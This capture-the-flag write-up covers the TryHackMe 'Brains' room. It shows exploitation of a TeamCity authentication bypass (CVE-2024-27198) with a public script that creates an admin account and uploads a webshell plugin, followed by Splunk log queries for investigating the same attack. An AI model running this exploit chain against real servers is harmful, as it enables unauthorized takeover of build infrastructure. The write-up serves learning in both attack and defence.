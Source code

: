 ```yaml
---
title: "TryHackMe: Brains"
author: Kasem Shibli
categories: [TryHackMe]
tags: [web, authentication bypass, rce, splunk]
render_with_liquid: false
media_subpath: /images/tryhackme_brains/
image:
  path: room_image.webp
---
```


**Brains** was a room focused on an **authentication bypass** vulnerability in **TeamCity** (**CVE-2024-27198**). We began as an attacker, exploiting the vulnerability to achieve **remote code execution (RCE)** and capture a flag. Afterward, we switched roles to become a defender, using **Splunk** to inspect logs and answer questions related to an attacker who had compromised a machine using the same vulnerability.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/brains){: .center }

## Red Team

We begin the room on the red side, tasked with attacking a target. Starting with an `nmap` scan.

### Nmap Scan

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.164.206
Nmap scan report for 10.10.164.206
Host is up (0.090s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 20:db:de:8e:f2:10:09:16:55:59:a7:18:06:3b:66:db (RSA)
|   256 78:79:f3:1f:5e:ee:8d:65:3f:9e:42:d9:4f:60:09:63 (ECDSA)
|_  256 5a:d0:1c:6d:c7:76:1d:5e:7a:c0:e7:bd:95:bf:fc:7d (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.41 (Ubuntu)
50000/tcp open  ibm-db2?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 401
|     TeamCity-Node-Id: MAIN_SERVER
|     WWW-Authenticate: Basic realm="TeamCity"
|     WWW-Authenticate: Bearer realm="TeamCity"
|     Cache-Control: no-store
|     Content-Type: text/plain;charset=UTF-8
|     Date: Fri, 04 Oct 2024 23:37:31 GMT
|     Connection: close
|     Authentication required
|     login manually go to "/login.html" page
...
```

Three ports are open:

- **22** (SSH)
- **80** (HTTP)
- **50000** (HTTP)

### Web 80

Upon visiting `http://10.10.164.206/`, we encounter a simple page displaying a "Maintenance" message.

![Web 80 Index](web_80_index.webp){: width="1200" height="600" }

### Web 50000

Accessing `http://10.10.164.206:50000/`, we find a `TeamCity Version 2023.11.3 (build 147512)` installation.

![Web 50000 Index](web_50000_index.webp){: width="1200" height="600" }

### CVE-2024-27198

Searching for vulnerabilities in `TeamCity Version 2023.11.3`, we discover [this article](https://www.vicarius.io/vsociety/posts/teamcity-auth-bypass-to-rce-cve-2024-27198-and-cve-2024-27199), which details an **authentication vulnerability** in **TeamCity** due to URL parsing. It also explains how this can be exploited for **remote code execution (RCE)** by using the vulnerability to interact with the API, allowing the creation of an admin account that can then be used to upload a malicious plugin.

Looking for available exploits, we find [this exploit](https://github.com/W01fh4cker/CVE-2024-27198-RCE) that automates the aforementioned steps.

After downloading and running the exploit, we gain a shell as the `ubuntu` user and can read the flag located at `/home/ubuntu/flag.txt`.

```console
$ python3 CVE-2024-27198-RCE/CVE-2024-27198-RCE.py -t http://10.10.164.206:50000

 _____                     ____ _ _           ____   ____ _____
|_   _|__  __ _ _ __ ___  / ___(_) |_ _   _  |  _ \ / ___| ____|
  | |/ _ \/ _` | '_ ` _ \| |   | | __| | | | | |_) | |   |  _|
  | |  __/ (_| | | | | | | |___| | |_| |_| | |  _ <| |___| |___
  |_|\___|\__,_|_| |_| |_|\____|_|\__|\__, | |_| \_\\____|_____|
                                      |___/
                                                                            Author: @W01fh4cker
                                                                            Github: https://github.com/W01fh4cker

[+] User added successfully, username: xbbzhkls, password: RdlWm1rrIS, user ID: 11
[+] The target operating system version is linux
[!] The current version is: 2023.11.3 (build 147512). The official has deleted the /app/rest/debug/processes port. You can only upload a malicious plugin to upload webshell and cause RCE.
[!] The program will automatically upload the webshell ofbehinder3.0. You can also specify the file to be uploaded through the parameter -f. Do you wish to continue? (y/n)y
[+] The malicious plugin FAzd42PL was successfully uploaded and is trying to be activated
[+] Successfully load plugin FAzd42PL
[+] The malicious plugin FAzd42PL was successfully activated! Webshell url: http://10.10.164.206:50000/plugins/FAzd42PL/FAzd42PL.jsp
[+] Please start executing commands freely! Type <quit> to end command execution
command > id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd)
command > wc -c /home/ubuntu/flag.txt
38 /home/ubuntu/flag.txt
```
{: .wrap }


## Blue Team

Next, we transition to the blue side, starting by logging into the provided `Splunk` server and navigating to the `Search & Reporting` section.

### Added User

Our first question is: **What is the name of the backdoor user that was created on the server after exploitation?** 

We can find this by searching the `/var/log/auth.log` source for the `useradd` string with the query: `source="/var/log/auth.log" *useradd*`.

We can observe the backdoor user being created on **July 4, 2024**.

![Splunk Useradd](splunk_useradd.webp){: width="1200" height="600" }

### Installed Package

Our next question is: **What is the name of the malicious-looking package installed on the server?** 

To find the answer, we can look for packages installed around the same timeframe as the user creation using the `/var/log/dpkg.log` source with the query: `source="/var/log/dpkg.log" date_month="july" date_mday="4" *install*`.

![Splunk Package Installed](splunk_package_installed.webp){: width="1200" height="600" }

### Plugin Upload

The final question is: **What is the name of the plugin installed on the server after successful exploitation?** 

We can find the answer by searching the `/opt/teamcity/TeamCity/logs/teamcity-activities.log` source for the `plugin` keyword: `source="/opt/teamcity/TeamCity/logs/teamcity-activities.log" *plugin*`.

![Splunk Plugin Upload](splunk_plugin_upload.webp){: width="1200" height="600" }

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>